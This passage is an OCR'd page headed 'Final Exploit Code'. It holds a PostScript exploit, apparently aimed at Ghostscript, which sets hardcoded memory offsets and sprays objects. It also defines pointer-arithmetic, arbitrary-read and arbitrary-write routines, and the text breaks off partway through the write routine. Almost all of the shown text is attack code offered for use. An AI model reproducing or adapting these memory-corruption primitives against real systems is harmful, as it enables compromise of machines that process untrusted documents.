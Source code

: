 ## Final Exploit Code

```postscript
% gs -q -sDEVICE=txtwrite -sOutputFile=/dev/null glyphunicode.ps

500000000 setvmthreshold

/REFIDX 249888 def
/REFOFS 3248640 def

/STROBJ 1000 string def
/ARROBJ 6250 array def
/OBJARR 32 array def
OBJARR 0 STROBJ put
OBJARR 1 ARROBJ put
/TARGET null def

/MAGIC null def
/STRPTR null def
/ARRPTR null def

% <dststr> <dstidx> <srcstr> <srcidx> <length> copystr -
/copystr {
    /_length exch def
    /_srcidx exch def
    /_srcstr exch def
    /_dstidx exch def
    /_dststr exch def
    _length {
        _dststr _dstidx _srcstr _srcidx get put
        /_srcidx _srcidx 1 add def
        /_dstidx _dstidx 1 add def
    } repeat
} bind def

% <string> <int> ptradd <string>
/ptradd {
    /_inc exch def
    /_ptr exch def
    /_new 8 string def
    0 1 7 {
        /_i exch def
        /_b _ptr _i get _inc add def
        /_inc _b -8 bitshift def
        _new _i _b 255 and put
    } for
    _new
} bind def

% <string-address> <string-buffer> arbrd -
/arbrd {
    /_buf exch def
    /_adr exch def
    STRPTR 0 _adr 0 8 copystr
    _buf 0 OBJARR 0 get 0 _buf length copystr
} bind def

% <string-address> <string-data> arbwr -
/arbwr {
    /_buf exch def
    /_adr exch def
    STRPTR 0 _adr 0 8 copystr
    OBJARR 0 get 0 _buf 0 _buf length copystr
```